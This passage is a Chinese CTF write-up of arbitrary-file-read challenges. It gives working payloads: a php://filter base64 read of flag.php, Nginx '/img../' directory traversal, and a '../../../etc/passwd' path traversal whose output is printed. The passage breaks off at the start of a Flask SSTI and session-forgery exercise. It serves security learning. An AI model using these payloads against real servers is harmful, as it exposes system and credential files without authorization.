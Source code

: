 6. 清楚了逻辑，直接尝试 `flag.php`,即`http://172.19.0.1/?p=php://filter/read=convert.Base64-encode/resource=flag`,获得数据`PD9waHAKZGllKCdubyBubyBubycpOwovL24xYm9va3thZnJfMV9zb2x2ZWR9`，解码得
  ```
  <?php
  die('no no no');
  //n1book{afr_1_solved}
  ```
  明显注释中可能表示 flag，查看官方 write up:`http://172.19.0.1/?p=php://filter/convert.base64-encode/resource=flag`，确定无错。

7. php://协议 Filter解读： `?p=php://filter/read=convert.Base64-encode/resource=flag`
   - 这是 p 关键字得 get 传递，即p=****
   - php://是一种协议名称，php://filter/ 是一种访问本地文件的协议
   - read=convert.Base64-encode 表示文件流编码成 Base64 的形式，这样读取的内容就不会存在 PHP 标签
   - /resource=flag 表示目标文件是 flag.php

### 1.3.2 afr_2
1. 访问环境，使用 wappalyzer 插件获得网站的 Banner 信息,发现服务器使用的 Nginx
   ![wappalyzer](https://cdn.jsdelivr.net/gh/cs-cshi/image-host/%E4%BB%8E0%E5%88%B01%EF%BC%88CTFer%E6%88%90%E9%95%BF%E4%B9%8B%E8%B7%AF%EF%BC%89/wp_afr_2_wappalyzer.png)

2. 使用 dirsearch 进行目录扫描，发现`/img`目录可以直接访问
   ```
    301   194B   http://172.19.0.1:80/img    -> REDIRECTS TO: http://172.19.0.1/img/
    200    99B   http://172.19.0.1:80/index.html
   ```
3. 想起 Nginx 错误配置造成的目录穿越漏洞，使用访问路径`/img../`，获得 flag。

### 1.3.3 afr_3
- 【知识点】:
  - 任意文件读取
  - flask SSTI 模板注入
    - [flask之ssti模版注入从零到入门](https://xz.aliyun.com/t/3679)
  - session 伪造
    - [flask session 伪造](https://blog.csdn.net/DonkeyMoon/article/details/109690476)
    - [[HCTF 2018]admin 1](https://blog.csdn.net/rfrder/article/details/109188719)
    - [N1BOOK 入门session伪造](https://blog.csdn.net/SopRomeo/article/details/111186821?utm_medium=distribute.pc_relevant.none-task-blog-BlogCommendFromMachineLearnPai2-1.control&dist_request_id=1328680.24088.16162219708244293&depth_1-utm_source=distribute.pc_relevant.none-task-blog-BlogCommendFromMachineLearnPai2-1.control)

1. `172.19.0.1:5000` 访问本题环境，在 `your name`框键入`test`，点`提交`。
   
2. 跳转到了`http://172.19.0.1:5000/n1page`,并且页面显示：`Hello : test, why you don't look at our article?`，点击 `article` 跳转到了`http://172.19.0.1:5000/article?name=article`

3. 注意到 url 中有参数 name=article,尝试随意赋值 name，页面回显：`[Errno 2] No such file or directory: '/home/nu11111111l/articles/article1'`，获得路径信息，并且极有可能是 linux 服务器，其实在 wappalyzer 中有检测出是 ubuntu

4. 尝试文件读取漏洞中常见的读取路径。先尝试 `/etc/passwd`，这个目录保存用户信息及其工作目录的文件,一般呗用作 linux 系统下文件读取漏洞存在性判断的基准。访问`http://172.19.0.1:5000/article?name=/../../../etc/passwd`,成功回显`passwd`文件信息。研究了下 linux 的 passwd，没发现特殊的信息，继续尝试其他路径。
```
root:x:0:0:root:/root:/bin/bash 
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
bin:x:2:2:bin:/bin:/usr/sbin/nologin 
sys:x:3:3:sys:/dev:/usr/sbin/nologin 
sync:x:4:65534:sync:/bin:/bin/sync 
games:x:5:60:games:/usr/games:/usr/sbin/nologin 
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin 
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin 
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin 
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin 
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin 
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin 
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin 
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin 
```